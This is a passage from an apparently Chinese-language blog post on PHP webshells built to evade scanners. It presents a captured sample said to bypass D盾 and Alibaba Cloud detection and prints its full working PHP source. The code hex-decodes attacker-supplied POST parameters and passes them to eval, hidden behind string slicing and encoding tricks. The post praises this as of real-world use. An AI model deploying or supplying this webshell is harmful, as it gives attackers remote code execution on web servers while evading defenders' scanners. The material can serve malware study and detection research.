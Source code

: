 当然这里使用到 `assert` 高危函数，只能用于 `php` 在 `5.*` 的版本，相关姿势读者不妨自行拓展一下哈哈~

### 12.2 样例二

这个免杀马是最近捕获到的，可以轻松过 D 盾、阿里云等一众查杀引擎~

[![](assets/1707954023-90cbbc9418a643b01617a34f94105624.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205143816-24c5663c-c3f1-1.png)

[![](assets/1707954023-330aba3f7fcd35c5de9e6fd283cb6401.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205144411-f8779ae0-c3f1-1.png)

这个样例使用了字符串截取 + 编解码转换 + 参数回调的手法，成功规避了正则匹配式，具有实战意义

```bash
<?php
phpinfo();
class Car{
    function encode(){
        $num1=base64_encode($_POST['num']);
        $num=base64_decode($num1);
        echo "1";
        foreach($_POST as $k => $v){
            $_POST[$k] = pack("H*",(substr($v,$num,-$num)));
        }
        @$post=base64_encode($_POST['Qxi*37yz']);
        @$post1=base64_decode(@$post);
        return $post1;
    }
    function Xt(){
        return eval($this->encode());
    }
}
$t=new Car;
$t->Xt();
?>
```
